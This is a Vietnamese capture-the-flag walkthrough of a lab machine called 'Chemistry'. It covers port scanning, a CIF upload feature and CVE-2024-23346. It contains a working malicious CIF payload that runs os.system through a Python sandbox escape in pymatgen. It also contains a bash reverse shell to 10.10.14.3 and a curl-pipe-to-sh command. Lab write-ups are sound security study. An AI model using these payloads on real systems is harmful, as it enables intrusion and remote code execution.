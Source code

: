 # Chemistry

<img width="1435" height="722" alt="image" src="https://github.com/user-attachments/assets/e1cc2226-facd-47b7-bab1-bbbfe325d35a" />

Tôi scan port bằng `nmap -sV 10.10.11.38` và ra được 2 port đang mở là 22 và 5000:

<img width="880" height="193" alt="image" src="https://github.com/user-attachments/assets/315b4a42-12ce-4bce-b5dd-567bbaadc6b2" />

Truy cập vào port 5000 thì là 1 website:

<img width="1804" height="1014" alt="image" src="https://github.com/user-attachments/assets/a8963970-76e2-4042-b5f8-93fd588ad62e" />

Tôi đăng kí tài khoản, vào dashboard thì thấy có chỗ để upload và chỉ nhận file `cif` 

<img width="1804" height="1014" alt="image" src="https://github.com/user-attachments/assets/4b7644b1-efc1-4341-b33a-86f86bfd8aee" />

Upload lên thì có dạng như này:

<img width="1164" height="810" alt="image" src="https://github.com/user-attachments/assets/c27b6711-f94c-48e1-af57-6c1a17f799fb" />

Recon tiếp như fuzzing dir với subdomain thì không ra cái gì đáng chú ý lắm

Tôi search mạng xem có vuln nào về cif không thì có xuất hiện [CVE-2024-23346](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f):

<img width="1149" height="538" alt="image" src="https://github.com/user-attachments/assets/63526d2a-2887-4d48-a014-678818d518a2" />

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
Thay lệnh trong system là được, tôi thử áp dụng với website với lệnh là curl đến ip của tôi:

<img width="1609" height="860" alt="image" src="https://github.com/user-attachments/assets/22246edf-06e0-4601-ad30-6d347493a41c" />

Bắt được request nên chứng minh được là có thể RCE được, tôi tạo reverse shell:

Tôi tạo file `shell.sh` với nội dung là:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.3/1234 0>&1'
```
Lắng nghe ở port 1234 `nc -lvp 1234` và `python3 -m http.server` để thực thi `curl http://10.10.14.3:8000/shell.sh|sh` nhằm lấy nội dung file `shell.sh` và thực thi nó:
